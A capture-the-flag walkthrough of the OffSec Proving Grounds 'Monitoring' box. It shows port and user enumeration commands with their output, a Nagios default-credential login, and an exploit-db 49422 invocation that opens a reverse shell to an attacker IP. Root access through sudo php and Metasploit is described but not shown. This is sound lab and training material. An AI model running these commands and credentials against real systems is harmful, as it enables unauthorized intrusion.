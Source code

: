 ```yaml
---

title: "Monitoring"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, Nagios]
mermaid: true
image: ../assets/img/pg/offsec.jpeg

---
```


The exploitation of the "Monitoring" box involved several critical steps. First, information gathering was conducted through a port scan using the nmap tool, identifying open ports such as 22, 25, 80, 389, 443, and 5667. During enumeration, vulnerable services were discovered, including the Nagios server.
Using the CVE-2020-15903 exploit, initial access was gained with the default credentials "nagiosadmin" and "admin". A reverse shell was established, providing remote access to the system.
During post-exploitation, it was identified that the "/usr/bin/php" binary could be executed with sudo privileges. An exploit in PHP was found, but due to dependencies, Metasploit was used to escalate privileges, ultimately gaining root access.
The process included techniques for exploiting web service vulnerabilities, remote command execution, and privilege escalation, culminating in total system access and the retrieval of proof files.

# Overview

```mermaid
graph TD
    A[Intelligence Gathering]
    A --> B[Port Scan > Port 22,25,80,389,443,5667]
    B --> C[Enumeration: HTTP > Nagios]
    C --> D[Exploitation > Nagios Exploit, Initial Access]
    D --> E[Root Shell through Metasploit]

```

## 1. Intelligence Gathering

### Port Scan

```bash
 sudo nmap -Pn -sV -p- --open 192.168.190.136
```

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
5667/tcp open  tcpwrapped
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Enumeration

### Port 25

User enumeration with smtp-user-enum tool

```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t 192.168.190.136
```

```
----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/seclists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 10177
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Jun 19 15:25:04 2024 #########
192.168.190.136: bin exists
192.168.190.136: irc exists
192.168.190.136: mail exists
192.168.190.136: man exists
192.168.190.136: root exists
192.168.190.136: sys exists
######## Scan completed at Wed Jun 19 15:43:27 2024 #########
6 results.

10177 queries in 1103 seconds (9.2 queries / sec)
```

### Port 389

```bash
nmap -Pn -sT -Pn --open -p389 --script=ldap-rootdse.nse 192.168.236.136 -n
```

```
PORT    STATE SERVICE
389/tcp open  ldap
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       namingContexts: dc=nodomain
|       supportedControl: 2.16.840.1.113730.3.4.18
|       supportedControl: 2.16.840.1.113730.3.4.2
|       supportedControl: 1.3.6.1.4.1.4203.1.10.1
|       supportedControl: 1.3.6.1.1.22
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.826.0.1.3344810.2.3
|       supportedControl: 1.3.6.1.1.13.2
|       supportedControl: 1.3.6.1.1.13.1
|       supportedControl: 1.3.6.1.1.12
|       supportedExtension: 1.3.6.1.4.1.4203.1.11.1
|       supportedExtension: 1.3.6.1.4.1.4203.1.11.3
|       supportedExtension: 1.3.6.1.1.8
|       supportedLDAPVersion: 3
|       supportedSASLMechanisms: DIGEST-MD5
|       supportedSASLMechanisms: NTLM
|       supportedSASLMechanisms: CRAM-MD5
|_      subschemaSubentry: cn=Subschema
```

### Port 80

![Untitled](../assets/img/pg/Monitoring/Untitled.png)

searched for the exploit for Nagios XL but didn't find one

login page

![Untitled](../assets/img/pg/Monitoring/Untitled%201.png)

searched for the default credentials -u “nagiosadmin” -p “admin”

Redirected to port 443

### Port 443

![Untitled](../assets/img/pg/Monitoring/Untitled%202.png)

## 3. Exploitation

To gain initial access, the exploit from [https://www.exploit-db.com/exploits/49422](https://www.exploit-db.com/exploits/49422) was used.

```bash
python3 [49422.py](http://49422.py/) [https://192.168.236.136](https://192.168.236.136/) nagiosadmin admin 192.168.45.195 666
```

![Untitled](../assets/img/pg/Monitoring/Untitled%203.png)

Initial Access

![Untitled](../assets/img/pg/Monitoring/Untitled%204.png)

With this exploit, I was unable to escalate privileges. However, I could execute "/usr/bin/php" with sudo. I found an exploit in PHP, but it had many dependencies, so I used Metasploit instead.

![Untitled](../assets/img/pg/Monitoring/Untitled%205.png)

Root Access

![Untitled](../assets/img/pg/Monitoring/Untitled%206.png)
